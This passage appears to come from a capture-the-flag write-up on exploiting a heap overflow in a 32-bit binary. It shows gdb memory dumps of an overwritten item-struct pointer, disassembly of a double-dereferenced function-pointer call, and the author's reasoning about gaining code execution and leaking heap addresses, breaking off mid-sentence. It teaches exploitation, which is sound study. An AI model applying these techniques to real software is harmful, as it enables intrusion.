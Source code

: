 And in action:

```
gdb-peda$ x/40x 0x804b300
0x804b300:  0x08a50088  0x00000000  0x00000000  0x00000000
0x804b310:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b320:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b330:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b340:  0x08a50008  0x08a50ba8  0x08a50c28  0x08a50ca8
0x804b350:  0x08a50d28  0x08a50da8  0x08a50e28  0x08a50ea8
0x804b360:  0x08a50f28  0x08a50fa8  0x08a51028  0x08a510a8
0x804b370:  0x08a51128  0x08a511a8  0x08a51228  0x08a512a8
0x804b380:  0x00000000  0x00000000  0x00000000  0x00000000
0x804b390:  0x00000000  0x00000000  0x00000000  0x00000000

# let's have a look at the second item:

gdb-peda$ x/40wx 0x08a50ba8
            .-- now overwritten!
            v
0x8a50ba8:  0x43434343  0x41414100  0x41414141  0x41414141
0x8a50bb8:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50bc8:  0x00414141  0x04b03741  0x41414108  0x41414141
0x8a50bd8:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50be8:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50bf8:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50c08:  0x41414141  0x41414141  0x41414141  0x41414141
0x8a50c18:  0x00414141  0x7fffffff  0x00000003  0x00000081
            .-- normal pointer
            v
0x8a50c28:  0x08049b70  0x41414141  0x41414141  0x41414141
0x8a50c38:  0x41414141  0x41414141  0x41414141  0x41414141
```

I was ready to rock & roll! I dumped in an address of a gadget, hoping to get code execution. There were, however, two small problems. First, the binary takes the pointer stored at the start of the item struct and then derefences it to get a second pointer to a function:

```
;;; triggered when asking for a wholesale price
 8048fdd: call   804897b <exit@plt+0x1ab>    ; this call will be important in a few moments
 8048fe2: pop    eax                         ; 
 8048fe3: pop    edx                         ;
 8048fe4: mov    eax,DWORD PTR [esi]         ; esi is *item, so this loads 0x08049b70 into eax
 8048fe6: push   edi                         ; input for function
 8048fe7: push   esi                         ; 
 8048fe8: call   DWORD PTR [eax]             ; this derefences 0x08049b70, effectively calling 0x08049466
```

So I needed to have a pointer to a pointer on the heap. I had no way of leaking the heap address yet. I tried to overflow using the address of a got pointer so I could use `sprintf` to leak further information, but then the function at `0x8048fdd` reared its ugly head:
